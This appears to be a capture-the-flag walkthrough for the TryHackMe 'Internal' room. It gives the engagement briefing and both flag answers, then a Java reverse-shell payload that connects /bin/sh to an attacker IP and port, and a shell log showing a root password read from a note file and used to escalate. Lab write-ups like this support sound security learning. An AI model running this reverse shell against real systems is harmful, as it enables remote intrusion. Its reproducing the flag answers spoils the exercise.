## **Briefing**

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 

**Scope of Work**

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

- User.txt
- Root.txt  

Additionally, the client has provided the following scope allowances:

- Ensure that you modify your hosts file to reflect internal.thm
- Any tools or techniques are permitted in this engagement
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.

  

Note - this room can be completed without Metasploit

****Writeups will not be accepted for this room.****  


## **Deploy and Engage the Client Environment**

Having accepted the project, you are provided with the client assessment environment.  Secure the User and Root flags and submit them to the dashboard as proof of exploitation.  

###### Answer the questions below

User.txt Flag  
THM{int3rna1_fl4g_1}

Root.txt Flag
THM{d0ck3r_d3str0y3r}





























```powershell
String host="10.21.174.19";
int port=4455;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


shell
whoami
jenkins
cd opt
ls
cat note.txt
root:tr0ub13guM!@#123

su - root
ls - la
cat root.txt
THM{d0ck3r_d3str0y3r}